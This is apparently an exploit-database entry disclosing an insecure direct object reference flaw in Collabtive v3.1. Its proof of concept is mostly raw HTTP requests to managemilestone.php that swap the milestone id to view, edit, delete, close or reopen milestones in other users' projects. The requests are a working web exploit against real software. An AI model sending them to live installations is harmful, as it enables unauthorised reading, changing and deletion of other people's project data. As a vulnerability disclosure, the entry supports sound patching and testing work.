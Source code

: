 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/update/delete/close/open the milestone that belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managemilestone.php?action=editform&mid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
POST /managemilestone.php?action=edit&id=1 HTTP/1.1
...

name=ms1&desc=lllllllll1111&start=05.10.2023&end=31.10.2023&mid=1(CHANGE HERE)
```

```
GET /managemilestone.php?action=del&mid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managemilestone.php?action=close&mid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managemilestone.php?action=open&mid=1(CHANGE HERE)&id=1 HTTP/1.1
```